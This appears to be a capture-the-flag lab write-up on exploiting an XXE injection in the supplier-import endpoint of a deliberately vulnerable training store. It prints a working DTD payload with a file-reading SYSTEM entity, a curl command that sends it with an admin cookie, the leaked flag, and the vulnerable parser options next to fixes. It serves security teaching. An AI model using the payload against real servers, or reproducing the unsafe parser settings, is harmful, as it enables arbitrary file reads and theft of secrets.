


This writeup covers the exploitation of an XXE (XML External Entity) injection vulnerability in OopsSec Store's supplier order import feature. The admin panel exposes an XML import endpoint that resolves external entities, allowing arbitrary file reads from the server.

## Table of contents

## Lab setup

The lab requires Node.js. From an empty directory, run the following commands:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Once Next.js has started, the application is accessible at `http://localhost:3000`.

## Prerequisites — gaining admin access

The supplier order import feature is restricted to administrators. Before exploiting the XXE vulnerability, admin access must be obtained through another vulnerability.

## Reconnaissance

### Discovering the supplier import page

After gaining admin access, the admin dashboard at `/admin` displays navigation links to various management sections. Among them is "Supplier Orders," which links to `/admin/suppliers`.



The page provides a textarea for pasting XML and an "Import Order" button. A sample XML template is pre-filled:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<order>
  <supplierId>SUP-001</supplierId>
  <orderId>PO-2026-0042</orderId>
  <total>1250.00</total>
  <notes>Standard delivery — net 30 terms</notes>
</order>
```

### Understanding the API

Submitting the form sends a POST request to `/api/admin/suppliers/import-order` with `Content-Type: application/xml`. The response includes the parsed fields:

```json
{
  "message": "Supplier order imported successfully.",
  "order": {
    "id": "...",
    "supplierId": "SUP-001",
    "orderId": "PO-2026-0042",
    "total": 1250,
    "notes": "Standard delivery — net 30 terms",
    "createdAt": "..."
  }
}
```

The `notes` field is directly reflected from the XML input. This is the injection point.

## Exploiting the XXE vulnerability

### Identifying the target file

Submitting malformed XML (e.g. missing required fields or an invalid structure) triggers verbose error responses. These include a `debug` object that leaks internal configuration, including the absolute path to a supplier registry file:

```json
{
  "error": "Missing required fields: supplierId and orderId.",
  "debug": {
    "config": "/absolute/path/to/flag-xxe.txt",
    "received": { "supplierId": null, "orderId": null }
  }
}
```

The file path points to `flag-xxe.txt` at the project root.

### Crafting the payload

XML supports Document Type Definitions (DTDs) that define entities. A `SYSTEM` entity declaration instructs the parser to load content from an external resource:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///absolute/path/to/flag-xxe.txt">
]>
<order>
  <supplierId>SUP-001</supplierId>
  <orderId>PO-2026-0001</orderId>
  <total>0</total>
  <notes>&xxe;</notes>
</order>
```

When the parser encounters `&xxe;`, it resolves the entity by reading the file and substituting its contents into the `notes` element.

### Sending the payload

Submit the crafted XML via the import form or directly via curl:

```bash
curl -X POST http://localhost:3000/api/admin/suppliers/import-order \
  -H "Content-Type: application/xml" \
  -H "Cookie: authToken=<your-admin-jwt>" \
  -d '<?xml version="1.0"?><!DOCTYPE order [<!ENTITY xxe SYSTEM "file:///absolute/path/to/flag-xxe.txt">]><order><supplierId>SUP-001</supplierId><orderId>PO-XXE</orderId><total>0</total><notes>&xxe;</notes></order>'
```



### Reading the flag

The response includes the file contents in the `notes` field:

```json
{
  "message": "Supplier order imported successfully.",
  "order": {
    "supplierId": "SUP-001",
    "orderId": "PO-XXE",
    "total": 0,
    "notes": "# Supplier Integration API Configuration\n# Generated automatically — do not edit\n\napi_key=OSS{xml_3xt3rn4l_3nt1ty_1nj3ct10n}\nendpoint=https://suppliers.oss-store.internal/api/v2\ntimeout=30000\n"
  }
}
```

The flag is `OSS{xml_3xt3rn4l_3nt1ty_1nj3ct10n}`.

### Secure Implementation

```typescript
// VULNERABLE — resolves external entities from user input
const doc = libxmljs.parseXmlString(rawXml, { noent: true, dtdload: true });

// SECURE — disable DTD processing entirely
const doc = libxmljs.parseXmlString(rawXml);
// Additionally: strip or reject any DOCTYPE declarations before parsing
```

After the fix:


## Vulnerability chain

This exploit chains two vulnerabilities:

1. **Admin access** — obtained, for example, via JWT forgery (CWE-347) or mass assignment (CWE-915)
2. **XXE injection (CWE-611)** — the XML parser resolves external entity declarations, allowing arbitrary file reads from the server

## Remediation

In a real application:

- **Disable DTD processing** in all XML parsers. Most libraries offer flags to reject DOCTYPE declarations entirely.
- **Disable external entity resolution.** Configure the parser to ignore `SYSTEM` and `PUBLIC` entity declarations.
- **Use JSON** for data interchange where possible. JSON does not support entity expansion.
- **Validate and sanitize input.** Strip DOCTYPE declarations from XML before parsing.
- **Apply the principle of least privilege.** The application process should not have read access to sensitive configuration files.
